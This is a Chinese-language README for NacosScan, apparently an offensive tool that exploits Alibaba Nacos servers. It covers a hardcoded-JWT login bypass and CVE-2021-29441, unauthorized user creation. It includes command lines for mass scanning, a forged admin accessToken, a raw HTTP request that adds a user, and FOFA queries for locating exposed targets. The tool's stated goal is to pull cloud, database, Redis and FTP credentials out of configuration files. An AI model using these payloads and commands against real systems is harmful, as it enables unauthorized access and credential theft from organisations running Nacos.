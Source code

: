 # NacosScan

慢慢磨合 欢迎 issue

# do what?

- [x] 漏洞利用
  - [x] JWT 硬编码登陆
  - [x] api未授权添加用户

- [x] 可从文件中读取，支持输入url，也可以输入 host、ip 自动重定向。最好还是用 url 指定 nacos 路径
- [x] 配置读取
  - [x] 默认会使用 JWT 硬编码尝试读取，可通过 -t 指定 token 在无漏洞时仍可读取配置文件
  - [x] 提取期望 key，可自行在 moudle/jwtToken.py 文件中修改，目前支持 ["aliyun", "oss", "datasource", "redis", "ftp", "server", "wechat", "store", "minio"]
  - [x] 文件格式
    - [x] 支持解析 yaml、yml 文件
    - [ ] json、 properties、无后缀等情况，实战遇到再加，目前只简单处理


## 使用

### JWT 硬编码登陆

建议优先使用该漏洞，少在服务器留下东西。。

```sh
# 指定 url，必须为nacos服务的路径
python3.8 nacosScan.py jwt -u {http://ip/nacos}

# 指定ip、host 后重定向
python3.8 nacosScan.py jwt -u {ip}

# 文件中读取
python3.8 nacosScan.py jwt -uf {url.txt}
```

### api未授权添加用户

```sh
# 默认添加 nasin natan
python3.8 nacosScan.py api -u {url}

# 指定ip、host 后重定向
python3.8 nacosScan.py api -u {ip}

# 指定用户名、密码
python3.8 nacosScan.py api -u {http://ip/nacos} -user {} -pass {}
```

### 读配置

存在 nacos 相关泄漏时也可以来读配置

```sh
# 指定 username password
python3.8 nacosScan.py jwt -u {http://ip/nacos} -user {} -pass {}

# 指定 accessToken 读配置
python3.8 nacosScan.py jwt -u {http://ip/nacos} -t {token}
```

## 效果图

JWT 硬编码登陆、读配置

![image-20230720111247294](attachments/image-20230720111247294.png)

api未授权添加用户

![image-20230720115207827](attachments/image-20230720115207827.png)

指定账号密码读配置

![image-20230720143700553](attachments/image-20230720143700553.png)

# 0x01 Nacos JWT 硬编码登陆

https://github.com/alibaba/nacos/issues/9830

## 概述

### 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。若您Nacos未修改 secret.key，则攻击者可利用默认secret.key生成JWT Token，从而造成权限绕过访问到相关API接口。

### 影响范围

0.1.0<=com.alibaba.nacos:nacos-console<2.2.0.1

## 环境

fofa

```
app="NACOS" 
```

## 复现

抓取登陆包，修改响应包状态码为 200 和 body

```json
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```

![image-20230530101351383](attachments/image-20230530101351383.png)

# 0x02 Nacos api未授权添加用户 CVE-2021-29441

## 概述

### 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。CVE-2021-29441中，攻击者通过添加Nacos-Server的User-Agent头部将可绕过认证，从而进行API操作。

### 影响范围

Up to (excluding) 1.4.1

## 环境

fofa

```
app="NACOS" 
```

## 复现

查询用户列表

http://your-ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1

添加用户

```http
POST /v1/auth/users HTTP/1.1
Host: nacos.qihuian.com
User-Agent: Nacos-Server
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=crowtt&password=crowt188
```

![image-20230720110732808](attachments/image-20230720110732808.png)



